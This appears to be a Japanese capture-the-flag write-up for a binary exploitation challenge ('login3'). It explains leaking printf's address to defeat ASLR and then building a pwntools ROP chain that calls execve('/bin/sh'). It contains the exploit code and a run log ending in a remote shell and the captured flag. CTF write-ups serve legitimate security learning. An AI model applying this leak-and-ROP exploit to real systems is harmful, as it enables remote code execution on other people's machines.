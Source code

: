 ## 詰まった点

libc内のアドレス：あくまでもlibcの先頭からの相対アドレス

つまり、絶対アドレスは`libcのアドレス + libc内のアドレス`となる

ゴールとしては、libc内の`/bin/sh`を動かす事である

それにはサーバ上で動くlibcのアドレスが必要となる

そこで、ASLRがONとなった状態の`printf`の絶対アドレスから、libc内の`printf`のアドレスを差し引く事で、サーバ上で動くlibcのアドレスが分かる。

そして、ROPのチェインを組む際のlibcのアドレスとして、上記で求めたサーバ上のlibcのアドレスを指定し、`execve(/bin/sh, 0)`を実行する事でシェルが取れる
```
printf = unpack(printf[:-1].ljust(8, b'\0'))
print('printf: %x' %printf)                  #7f4d9b8b0e80
print('libc printf %x' %libc.symbols.printf) #64e80

libc.address = printf - libc.symbols.printf

rop = ROP(libc)
addr_sh = libc.search(b'/bin/sh').next() 
rop.execve(addr_sh, 0, 0)
```

## exploit

```
$ python exploit.py r
[*] '/ctf/writeup/MalleusCTF/login3/login3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to host on port 10003: Done
[*] '/ctf/writeup/MalleusCTF/login3/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './login3'
0x0000:         0x400873 pop rdi; ret
0x0008:         0x601020 [arg0] rdi = got.printf
0x0010:         0x4005cc puts
0x0018:         0x400782 main()
Invalid ID or password

printf: 7efe8505ae80
libc printf 64e80
[*] Loaded cached gadgets for './libc-2.27.so'
libc.search(b'/bin/sh').next() 7efe851a9e9a
0x0000:   0x7efe8501755f pop rdi; ret
0x0008:   0x7efe851a9e9a [arg0] rdi = 139631619907226
0x0010:   0x7efe851266d9 pop rdx; pop rsi; ret
0x0018:              0x0 [arg2] rdx = 0
0x0020:              0x0 [arg1] rsi = 0
0x0028:   0x7efe850dae30 execve
[*] Switching to interactive mode
Invalid ID or password
$ ls
flag.txt
login3
login3.sh
$ cat flag.txt
FLAG{vOvF4gQyzrRq50eH}
$
[*] Closed connection to host port 10003
```
